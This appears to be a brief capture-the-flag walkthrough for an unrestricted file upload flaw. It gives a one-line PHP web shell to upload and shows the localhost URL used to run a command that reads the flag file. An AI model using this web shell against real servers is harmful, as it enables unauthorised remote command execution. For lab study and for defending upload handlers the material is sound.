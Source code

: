 
Upload the following PHP web shell:
```
<?php system($_REQUEST[0]);?>
```

The application responds with the location of the file, for example:
```
http://localhost:8000/uploads/shell.php
```

Use the web shell to read the flag on the server:
```
http://localhost:8000/uploads/shell.php?0=cat /flag.txt
```